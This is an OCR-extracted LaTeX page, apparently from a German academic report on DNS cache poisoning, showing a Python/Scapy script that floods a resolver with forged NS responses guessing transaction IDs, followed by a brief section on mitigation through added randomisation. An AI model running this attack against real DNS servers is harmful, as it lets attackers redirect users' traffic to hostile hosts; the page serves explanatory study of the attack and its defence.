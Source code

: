 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
counter = 0
while True:
    target_domain = "www" + str(counter) + target_domain_base
    counter = (counter + 1) % (2 ** 16)

    packet_list = [initial_request(target_domain, target_dns_ip, target_dns_port_in)]

    response_amount = 50
    r = random.randint(0, (2 ** 16) - response_amount + 1)
    for i in range(r, r + response_amount):
        packet_list.append(
            forged_ns_response(i, target_domain, target_dns_ip, attacker_dns_ip, 
            		known_ns_domain, known_ns_ip, target_dns_port_out))

    p_txid_match = (1 / (2 ** 16)) * response_amount * counter * 100
    print("Iteration: {}, possible cache poisoning: {:4.2f}%".format(counter, p_txid_match))
    print("Sending packets from {} with id in interval [{}, {}] to {}"
    	.format(known_ns_ip, r, r + response_amount, target_domain))

    sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

    dns_response = sr1(IP(dst=target_dns_ip) / UDP(dport=53) / DNS(rd=1, 
    	qd=DNSQR(qname=target_domain)), verbose=0)

    try:
        if dns_response[DNS].an.rdata == expected_ip:
            print("Successfully poisoned the zone of {}".format(target_domain_base))
            break
    except:
        print("Poisoning failed")
    break
\end{lstlisting}
\end{center}

\subsection{Versuchsreihen und Vorgehensweise}

\section{Schutz gegen den Angriff}
Das eigentliche Problem des Angriffslies sich nicht beheben ohne die Kompatibilität zum bisherigen DNS Protokoll zu verlieren, daher wurden weitere Zufallsquellen neben der bestehenden ID-Randomization eingerichtet.
\end{document}
